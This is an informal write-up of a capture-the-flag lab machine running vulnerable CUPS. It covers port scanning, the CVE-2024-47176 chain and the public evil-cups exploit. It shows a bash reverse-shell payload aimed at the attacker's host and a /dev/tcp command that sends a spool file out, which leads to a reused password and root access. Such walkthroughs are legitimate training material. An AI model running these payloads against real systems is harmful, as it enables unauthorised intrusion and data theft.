# Recon

Once that i already verify that the machine is up, ill check what open ports this machine has

```
nmap -sC -sV -Pn -p- -T4 10.10.11.40 -oN CupsNmap.txt
```

This command `nmap` is a port scanner and the flags are used to investigate footprints of the service that exists in that machine and the last one is to output the result into a file so we can check it whenever we need it



and then i can start investigate the ports, i will start with 631 as i see it has a website



investigating the cups version i notice this has been a huge topic in the last few days, i did wanted to investigate this PoC as this is marked as 9.9 CVE

> CVE-2024-47176 | cups-browsed <= 2.0.1 binds on UDP INADDR_ANY:631 trusting any packet from any source to trigger a Get-Printer-Attributes IPP request to an attacker controlled URL.

> CVE-2024-47076 | libcupsfilters <= 2.1b1 cfGetPrinterAttributes5 does not validate or sanitize the IPP attributes returned from an IPP server, providing attacker controlled data to the rest of the CUPS system.

> CVE-2024-47175 | libppd <= 2.1b1 ppdCreatePPDFromIPP2 does not validate or sanitize the IPP attributes when writing them to a temporary PPD file, allowing the injection of attacker controlled data in the resulting PPD.

> CVE-2024-47177 | cups-filters <= 2.0.1 foomatic-rip allows arbitrary command execution via the FoomaticRIPCommandLine PPD parameter.


i got the information of the vulnerability from this [post](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) which is the researcher who found it

## exploit vulnerability

basically, if the target machine has a printer, you can replace it or create a new (fake) one and send an arbitrary command execution. all this done being unauthenticated.

or something like that, i am missing some steps in that explanation.

in order to exploit, we can copy the poc python script from [here](https://github.com/IppSec/evil-cups) and run it

```python3 evilcups.py 10.10.14.15 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.15/9001 0>&1" &' ```



after that we can go to the cups page and "print" a test from our fake printer

set up a listener in the specified port and stabilize the shell



and we have a shell, now i can start looking for the user flag 



running `whoami` it let us know that we are `lp` user 
still doing recon on the cups gui we find that i didnt make the first job, it was done by the other existing printer and i can try to check the contents of the job



we see that the spool files are in that directory 

what are spool files tho? temporary files used by operating systems and applications to manage the flow data between different components, in this context, this files can contain the content of documents waiting to be printed and instructions for the printer (like page sizes, job settings, document names, etc)



reading this, it doesnt matter how the job is called in the gui that we see, its always stored like says in the documentation, in this case `d00001-901`



aand the file is there but we cant read it very well, i will send it to my machine to investigate it and turn it into a readable file

```
cat d00001-001 > /dev/tcp/10.10.14.15/9001
```



after convert it, i can read the file



since it has what it seems to be a password i can try to use it



and we got root flag :) 